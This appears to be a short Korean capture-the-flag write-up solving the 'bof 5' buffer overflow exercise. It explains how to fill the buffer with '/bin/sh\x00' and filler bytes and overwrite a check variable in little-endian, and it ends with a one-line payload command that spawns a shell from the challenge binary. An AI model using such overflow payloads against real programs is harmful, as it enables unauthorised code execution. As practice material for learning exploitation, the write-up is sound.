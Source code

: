 # bof 5

다른 문제와 별반 차이 없어 제이지만 잘 보면 system 함수의 인자 값이 다르다.

![차이점](./img/bof5.PNG)

기존의 인자 값은 "/bin/sh" 이었으나 이번에는 buf를 채워 그 내요을 직접 넣어주어야 한다. 따라서 버퍼를 "/bin/sh\x00" (8byte) 로 채운 후 나머지 132byte는 아무거나 채운다 그리고 그 이후의 부분은 innocent의 내용이므로 little-endian을 고려하여 key 값과 동일하게 채워주면 된다.

따라서 터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ (python -c 'print "/bin/sh\x00" + "\x90"*132 + "\x78\x56\x34\x12"';cat) | ./bof5
```